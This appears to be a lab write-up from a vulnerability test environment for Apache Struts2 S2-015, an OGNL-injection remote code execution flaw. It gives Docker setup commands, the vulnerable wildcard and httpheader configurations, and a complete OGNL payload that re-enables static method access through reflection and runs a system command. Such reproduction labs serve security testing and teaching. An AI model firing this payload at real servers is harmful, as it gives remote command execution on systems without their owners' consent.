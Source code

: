 # S2-015 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.3.14.2

Vulnerability details:

 - http://struts.apache.org/docs/s2-015.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Principles and Testing

The vulnerability arises when the Action wildcard * is configured and used as a dynamic value, and its content is evaluated as an OGNL expression, for example:

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

The above configuration allows us to use name.jsp to render the page when we access name.action, but when we extract the name and parse it, we perform an OGNL expression parsing, which causes the command to execute. In the practice of recurring, I found that because the location of the name value is special, some special characters such as / " \ can not be used (escaped also not), so when using this point for remote command execution, some commands with a path It may not be successful.

It should also be noted that in the update of Struts 2.3.14.1 - Struts 2.3.14.2, the setAllowStaticMethodAccess method in the SecurityMemberAccess class has been removed, so after version 2.3.14.2, you cannot directly pass `#_memberAccess['allowStaticMethodAccess']= True` to modify its value to achieve the ability to regain static method calls.

Here in order to reach the execution of the command can be solved by calling the dynamic method (new java.lang.ProcessBuilder('calc')).start() mentioned by kxlzx, and indirectly by means of the Java reflection mechanism:

```
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

You can construct Payload as follows:

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true ),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

Direct echo:

![](01.png)

In addition to the above mentioned situation, S2-015 also covers a case of secondary reference execution:

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

Here is configured ``param name="errorMessage">${message}</param>`, where message is a private variable in ParamAction, so configuration will cause Struts2 to get the message from the request parameter when the Result is triggered. The value, and during the parsing process, triggers the OGNL expression execution, so committing only with commit %{1111*2} as its variable value will be executed. The important thing to note here is that the secondary parsing here is caused by using ${param} in struts.xml to reference variables in Action, not for type="httpheader".

![](02.png)